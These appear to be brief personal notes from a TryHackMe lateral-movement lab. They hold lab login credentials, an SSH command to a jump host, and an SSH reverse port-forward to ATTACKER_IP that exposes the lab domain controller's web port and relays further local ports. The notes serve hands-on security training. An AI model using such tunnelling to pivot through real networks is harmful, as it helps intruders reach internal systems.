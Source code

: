 
Creds http://distributor.za.tryhackme.com/creds

Username: 
bradley.cook 
Password: 
Onsl4845

ssh za\\bradley.cook@thmjmp2.za.tryhackme.com

tunneluser
Aa123456!@#

Complex port forwared

ssh tunneluser@ATTACKER_IP -R 8888:thmdc.za.tryhackme.com:80 -L *:6666:127.0.0.1:6666 -L *:7878:127.0.0.1:7878 -N